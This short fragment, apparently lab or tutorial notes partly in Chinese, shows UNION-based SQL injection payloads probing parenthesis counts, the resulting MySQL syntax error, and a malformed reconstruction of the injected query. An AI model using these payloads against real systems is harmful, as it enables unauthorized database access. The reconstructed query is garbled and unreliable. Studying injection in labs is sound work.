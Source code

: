 

```
3')) UNION select 1,2,3-- -
```

正常输出

```
3')))) UNION select 1,2,3-- -
```

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ')) UNION select 1,2,3-- -')) LIMIT 0,1' at line 1


```
这是一个返回布尔值的查询语句。
SELECT EXISTS()(SELECT 1 FROM your_table_name WHERE id = '$input')) LIMIT 0,1;
3')) UNION select 1,2,3-- -
SELECT EXISTS()(SELECT 1 FROM your_table_name WHERE id = '3'))UNION select 1,2,3-- -)) LIMIT 0,1;

```
